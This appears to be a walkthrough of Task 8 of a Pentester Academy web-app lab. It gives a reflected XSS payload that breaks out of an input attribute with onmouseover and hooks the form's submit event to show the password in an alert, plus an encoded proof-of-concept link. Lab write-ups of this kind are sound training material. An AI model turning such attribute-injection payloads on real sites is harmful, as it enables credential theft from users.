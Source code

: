 ## Task 8 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/8)</small>

Objectives:

1. Pop the password in an alert box when the user submits the form

So again event handling thing it is. Whenever you click on submit button inside the form, it triggers `submit` event. By default submit will send all data to _action_ as per specified in _method_.

You can use `.addEventListener()` to alert the password and then let the form submit

It is reflecting the query parameter in the input and escaping html characters. So using attributes events [onmouseover](https://www.w3schools.com/tags/ev_onmouseover.asp) I was able to complete the objectives

![](https://i.imgur.com/DTdmjix.png)

So the payload for it is

```js
" onmouseover="document.forms[0].addEventListener('submit', function(){ alert(document.querySelector('input[type=password]').value) })
```

**NOTE** I could have used `() =>` arrow function, to make the payload shorter, but the server is escaping all these characters.

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/8?email=%22%20onmouseover%3D%22document.forms%5B0%5D.addEventListener%28%27submit%27%2C%20function%28%29%7B%20alert%28document.querySelector%28%27input%5Btype%3Dpassword%5D%27%29.value%29%20%7D%29&password=hello)
